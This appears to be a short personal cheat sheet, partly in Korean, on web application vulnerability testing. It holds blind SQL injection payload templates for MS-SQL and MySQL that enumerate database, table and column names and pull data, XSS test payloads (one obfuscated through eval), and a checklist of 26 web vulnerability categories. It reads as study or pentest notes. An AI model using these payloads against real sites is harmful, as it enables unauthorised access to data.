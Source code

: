 <MS-SQL> <br>
#Shape <br>
select * from board where Title='//' and substring((query), 1, 1) < 'a'--<br>
???' and substring((query), 1, 1) < 'a'--<br>
<br>
#get DB NAME <br>
db_name() <br>
<br>
#Get Table name <br>
select top 1 name from sysobjects where xtype='U' <br>
<br>
#Get Column name <br>
select top 1 column_name from information_schema.columns where table_name = '[Table Name]' <br>
<br>
#Get Data <br>
select top 1 [Column Name] from [Table Name] <br>
<br>
<br>
<br>
<MySQL> <br>
???' and ascii(substring((query), 1, 1)) > 'a'# <br>
<br>
#Get Table Name <br>
select table_name from information_schema.tables where table_type='base table' limit 0,1 <br>
                                                                                     ㄴ> 0번 째 테이블 <br>
  



-----------------------------------------------------------------------------------
1. 관리자페이지 접근통제 및 계정관리
2. 사용자 접근통제 및 로그관리
3. 사용자 비밀번호 관리
4. 비인가 페이지 접근
5. 파라미터 변조 취약점
6. 암호화
7. 소스코드 속
8. 검색엔진 robot
9. HTTP Method
10. Direcory Listing
11. 취약한 세션 및 쿠키 인증
12. Buffer Overflow
13. Format String
14. 시스템 명령어 실행 취약점
15. 파일 다운로드 
16. 파일 업로드
17. 파일 Include
18. 악성 스크립트 XSS, CSRF<br>
`<img src="#" onmouseover="alert(1);">`<br>
`<img src="#" onerror="alert(1);">`<br>
`<img onclick='var a="aler"+"t(al"+"ert"+"(1));";eval(a);'>`<br>
19. 악성 콘텐츠 html
20. 웹페이지 오류정보 처리
21. 웹서버 백업파일 관리
22. 취약한 게시판 프로그램, 웹어플리케이션
23. SQL Injection
24. SSI Injection
25. XML 취약점
26. LDAP Injection
